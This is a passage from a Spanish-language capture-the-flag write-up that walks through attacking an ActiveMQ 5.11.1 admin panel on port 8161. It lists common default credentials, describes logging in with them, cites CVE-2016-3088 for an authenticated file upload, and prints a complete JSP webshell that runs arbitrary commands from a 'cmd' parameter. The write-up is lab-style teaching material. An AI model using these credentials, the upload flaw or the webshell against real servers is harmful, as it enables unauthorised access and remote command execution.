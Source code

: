 Ahora que ya vimos lo que posiblemente pueda funcionar, resta acceder a esos puertos desde el navegador y ver lo que nos muestra.

Al entrar a puerto 8161 que es el puerto que tiene como servicio ACTIVEMQ, podemos ver que hay una sección muy interesante llamada "Manage ActiveMQ broker"

![im2](img/imagen_2021-03-09_020104.png)


### EXPLOTACIÓN 

Como en cada formulario de inicio de sesión, siempre hay que intentar loguearnos con credenciales por defecto. Ejemplos de contraseñas por defecto:
```
admin:admin
admin:123
root:root
root:toor
administrator:administrator
```

si intentamos ingresar con la contraseña por defecto al panel de administración, nos daremos cuenta que nos da acceso y encontramos la siguiente flag y más información interesante, como por ejemplo, la versión. (5.11.1)

![im5](img/imagen_2021-03-09_020659.png)

si volvemos a la parte donde buscamos exploits para ActiveMQ, vimos que habían un par. 
Tenemos 2 posibles vías de explotación, usando Metasploit o intentar ejecutar el exploit a "mano". Nosotros lo haremos a mano.
Según el CVE-2016-3088, hay una vulnerabilidad que nos permite subir una webshell estando autenticados.

así que al intentar subir la webshell, se sube sin problema alguno.

![im5](img/6.png)

la webshell que se envió fue esta:
```
<%@ page import="java.util.*,java.io.*"%>  
 <%  
 %>  
 <HTML><BODY>  
 Commands with JSP  
 <FORM METHOD="GET" NAME="myform" ACTION="">  
 <INPUT TYPE="text" NAME="cmd">  
 <INPUT TYPE="submit" VALUE="Send">  
 </FORM>  
 <pre>  
 <%  
 if (request.getParameter("cmd") != null) {  
 out.println("Command: " + request.getParameter("cmd") + "<BR>");  
 Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));  
 OutputStream os = p.getOutputStream();  
 InputStream in = p.getInputStream();  
 DataInputStream dis = new DataInputStream(in);  
 String disr = dis.readLine();  
 while ( disr != null ) {  
 out.println(disr);  
 disr = dis.readLine();  
 }  
 }  
 %>  
 </pre>  
 </BODY></HTML> 
```
